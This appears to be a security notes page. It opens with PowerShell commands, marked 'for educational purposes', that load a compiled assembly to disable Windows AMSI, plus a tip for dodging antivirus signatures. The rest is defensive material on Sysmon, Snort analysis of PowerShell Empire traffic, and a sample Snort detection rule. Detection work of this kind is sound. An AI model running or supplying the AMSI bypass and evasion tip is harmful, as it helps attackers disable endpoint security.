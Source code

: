 For Educational Purposes Only
Bypass AV AMSI.dll

Add-Type -TypeDefinition ([IO.File]::ReadAllText("$pwd\Source.cs")) -OutputAssembly "Source.dll"
[Reflection.Assembly]::Load([IO.File]::ReadAllBytes("$pwd\\Source.dll"))
[BP.AMS]::Disable()

Note: If your antivirus software blocks the Source.dll file, simply add a comment (e.g., //) in Source.cs to bypass antivirus signature detection.

Detecting PowerShell Processes with Sysmon and Wazuh
To monitor PowerShell processes using Sysmon:
Sysmon64.exe -accepteula -i sysconfig.xml

Detect PowerShell Empire Using Snort
Analyze a pcap file with Snort to detect PowerShell Empire activity:

snort -c /usr/local/etc/snort/snort.lua -r http_powershell_empire.pcap -Acmg -k none -q

This command processes packets with Snort.

Snort Rule for Detecting PowerShell Empire C&C Malware
Here’s a sample Snort rule to detect PowerShell Empire C&C connections:
snort

alert http (
    msg:"PowerShellEmpire detected";
    flow:to_server,established;
    http_uri:path;
    content:"/login/process.php",nocase;
    http_header;
    content:"Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko",nocase;
    http_cookie;
    content:"session",nocase;
    reference:url,attack.mitre.org/techniques/T1086;
    reference:url,powershellempire.com;
    classtype:trojan-activity;
    sid:56465; rev:5;
)

Snort 3 HTTP Buffers
Snort 3 provides several HTTP inspection buffers, including:
http_inspect::http_client_body
http_inspect::http_cookie
http_inspect::http_header
http_inspect::http_method
http_inspect::http_param
http_inspect::http_raw_body
http_inspect::http_raw_cookie
http_inspect::http_raw_header
http_inspect::http_raw_request
http_inspect::http_stat_code
http_inspect::http_uri
http_inspect::js_data
http_inspect::vba_data


snort -c /usr/local/etc/snort/snort.lua -r ttp_powershell_empire.pcap -Acmg


For further reading, visit https://Livehack101.com.
